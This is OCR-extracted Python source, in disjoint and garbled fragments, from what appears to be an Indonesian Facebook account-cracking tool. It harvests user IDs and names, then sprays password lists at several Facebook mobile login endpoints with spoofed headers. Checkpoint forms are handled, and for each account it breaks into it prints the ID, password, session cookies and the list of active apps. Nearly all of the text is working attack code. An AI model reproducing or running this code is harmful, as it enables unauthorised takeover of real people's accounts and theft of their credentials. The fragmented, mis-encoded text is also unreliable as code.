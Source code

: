 ": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}   hi = ses.get('https://mbasic.facebook.com')   ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')   if "checkpoint" in ses.cookies.get_dict().keys():    try:     jo = ho.find('form')     data = {}     lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']     for anj in jo('input'):      if anj.get('name') in lion:       data.update({anj.get('name'):anj.get('value')})     kent =
.text     cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text     infoakun += (f"\n[bold cyan][â€¢] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")     apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))     nok=1     for muncul in apkaktif:      infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")      nok+=1      hit=0     infoakun += (f"\n[bold yellow][â€¢] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")     apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))     hit=0     for muncul in apkexp:      hit+=1      infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")     print('\n')     statusok = f'[bold green][â€¢] ID : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES : {kuki}[/bold green]\n{infoakun}'     statusok1 = nel(statusok, style='green')     cetak(nel(statusok1, title='[bold green]AOREC-XD OK[/bold green]'))     ok+=1     break   else:    continue  except requests.exceptions.ConnectionError:   time.sleep(31)
')   dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://touch.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}   koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])   koki+=' m_pixel_ratio=2.625; wd=412x756'   heade={'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://touch.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://touch.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate,
cek_apk(session,coki)    break       else:    continue  except requests.exceptions.ConnectionError:   time.sleep(31) loop+=1#------------------[ METHODE-MBASIC-2 ]-------------------#def crackfree(idf,pwv): global loop,ok,cp sys.stdout.write(f"\rðŸ”¥ {P}[{asu}Mbasic{P}]{P}[{b}{loop}{P}/{p}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{m}{'{:.0%}'.format(loop/float(len(id)))}{P}] "), sys.stdout.flush() ua = random.choice(ugen) ua2 = random.choice(ugen2) ses = requests.Session() for pw in pwv:  try:   ses.headers.update({'Host': 'free.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua2,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})   p = ses.get('https://free.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')   dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"',
)   dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-
idku = idyou+'|'+namayou     if idku in id:      continue     else:      id.append(idku)      print(("\r"+balmond+h+" { "+k+"Proses Mengambil ID "+str(len(id))+h+" }"), end="");sys.stdout.flush()    elif '>' in spl:     idsiapa = re.findall('content_owner_id_new.\w+',str(cari))     idyou = idsiapa[0].replace('content_owner_id_new.','')     namayou = liatnih.split(' > ')[0]     idku = idyou+'|'+namayou     if idku in id:      continue     else:      id.append(idku)      print(("\r"+balmond+h+" { "+O+"Mengumpulkan ID
